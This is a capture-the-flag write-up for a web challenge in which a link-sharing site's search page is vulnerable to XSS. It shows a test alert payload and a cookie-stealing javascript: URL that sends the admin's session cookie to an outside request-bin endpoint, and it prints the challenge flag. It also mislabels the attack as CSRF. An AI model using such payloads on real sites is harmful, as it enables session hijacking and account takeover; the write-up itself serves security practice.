



# Find Your Site

> Category: Web

> Points: 200

## Challenge Description

> translated: Mario is very happy with his website which can be used to exchange useful links, but he felt something was missing. That's why he added a possibility of searching/querying useful links, so he could help someone find something they are looking for. He is very proud of his code so he even decided to give you the source code so you can see how he had done that.
> Since he is so sure in his website, and also a bit lazy, he put some useful informations in cookies so he could access them easier. Mario decided to use his website and really believes that he hasn't made any flaws with it.
> If you also want to use the website, all you have to do is register and login. That way you will be able to search and send useful links to your friends and to the admin, which is of course Mario.

> native: Mario je jako sretan sa svojom stranicom na kojoj se mogu izmjenjivati korisni linkovi, ali osjećao je da nešto nedostaje. Zato je kasnije dodao mogućnost pretraživanja korisnih linkova, kako bi netko mogao lakše naći upravo ono što traži. Jako je ponosan na svoj kod pa ti je čak dao source kod kako bi mogao vidjeti kako je to napravio.
> Budući da je siguran u svoju stranicu, a i pomalo lijen, stavio je neke korisne informacije u kolačiće kako bi im lakše mogao pristupiti. Mario je nastavio korisiti svoju stranicu i zaista se uvjerio da nije time napravio nikakav propust.
> Ukoliko i ti želiš koristiti stranicu, sve što moraš napraviti je registrirati se i ulogirati. Tada ćeš moći pretraživati i slati korisne linkove svojim prijateljima i adminu, koji je naravno Mario.

## Analysis



There's the cookies mentioned again. Looking into them we find a PHPSESSION.

That gives us an idea immediately. Let's see if the site is XSS-able.

We will go onto the search.php site and input this script and press Submit

```html
<script>alert("dimitri-dev")</script>
```



Since in this challenge again we know the admin visits the links sent to him, and we have the PHPSession in the cookies, how about we grab that?

We are, of course, talking about CSRF - Cross Site Request Forgery.

Introduction to - https://pipedream.com/requestbin.

This site allows us to create an endpoint which we can use to steal the admin's PHPSession cookie and replace ours with it.

Once we set up the endpoint, we will send this as a link to the "admin" user.

```js
javascript:window.location="https://88b249371e461c6a00c4cf15cc204347.m.pipedream.net/" + document.cookie;
```

Looking on the endpoint's triggers, we will have a query body of the PHPSESSION id from admin.

And here it is:



And together alongside the cookie, the flag is also in admin's cookies.

## FLAG

> CTF2021[099543867016]